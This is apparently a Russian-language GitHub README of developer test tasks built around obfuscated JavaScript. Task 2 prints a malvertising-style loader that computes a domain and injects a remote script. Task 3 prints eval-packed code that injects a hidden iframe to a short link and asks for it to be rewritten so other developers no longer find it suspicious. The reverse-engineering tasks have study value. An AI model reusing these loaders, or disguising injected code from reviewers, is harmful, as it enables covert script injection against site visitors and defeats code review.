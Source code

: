 Здесь будет различная подборка тестовых заданий, которые я встречал. 


# 1) задание первое:
раздуть код 
```javascript
name='foo';alert(window.name);
```
до одного килобайта.

# 2) задание второе:
Объяснить, с какого адреса данный код
```javascript
        <script type="text/javascript" id="73901220182">
                (function(d,c,b,a,e){
                    with(new Image)onload=function(){with(this)a.push((1E6+1E3*width+1*height+a).slice(-6).replace(/\d{2}/g,
                    function(a){return"%"+(+a+97).toString(16)+c.split("")[a%6]})),a.push("com"),a=["/",unescape(a.join(".")),
                 [(new Date).getTime(),b.domain,e,0].join(",")],b.body.appendChild(b.createElement(c)).src=a.join(a[0])},src=d
                })("http://serve.oxystatic.com/init","script",document,[],73901220182)
                </script>
```
подгрузит скрипт, и почему.

# 3) задание третье:
Почему код по ссылке
 ```javascript
          var _0x371a=["\x30\x2E\x31\x7C\x7C\x30\x2E\x35\x28\x27\x3C\x31\x3E\x27\x29\x3B\x32\x3D\x30\x2E\x31\x2E\x36\x28\x30\x2E\x34\x28\x27\x33\x27\x29\x29\x3B\x32\x2E\x37\x3D\x27\x38\x3A\x2F\x2F\x64\x2E\x63\x2F\x62\x27\x2C\x32\x2E\x39\x2E\x61\x3D\x27\x65\x27\x3B","\x7C","\x73\x70\x6C\x69\x74","\x64\x6F\x63\x75\x6D\x65\x6E\x74\x7C\x62\x6F\x64\x79\x7C\x6E\x73\x6F\x64\x6B\x7C\x69\x66\x72\x61\x6D\x65\x7C\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74\x7C\x77\x72\x69\x74\x65\x7C\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64\x7C\x73\x72\x63\x7C\x68\x74\x74\x70\x7C\x73\x74\x79\x6C\x65\x7C\x64\x69\x73\x70\x6C\x61\x79\x7C\x31\x32\x33\x34\x35\x36\x7C\x67\x6C\x7C\x67\x6F\x6F\x7C\x6E\x6F\x6E\x65","\x5C\x62","\x67","\x72\x65\x70\x6C\x61\x63\x65"];eval(function(_0x1019x1,_0x1019x2,_0x1019x3,_0x1019x4,_0x1019x5,_0x1019x6){while(_0x1019x3--){if(_0x1019x4[_0x1019x3]){_0x1019x1=_0x1019x1[_0x371a[6]]( new RegExp(_0x371a[4]+_0x1019x3.toString(_0x1019x2)+_0x371a[4],_0x371a[5]),_0x1019x4[_0x1019x3])}};return _0x1019x1;}(_0x371a[0],15,15,_0x371a[3][_0x371a[2]](_0x371a[1])));
```
выглядит подозрительно?
Переписать его так, чтобы он больше не вызывал подозрений у других разработчиков.
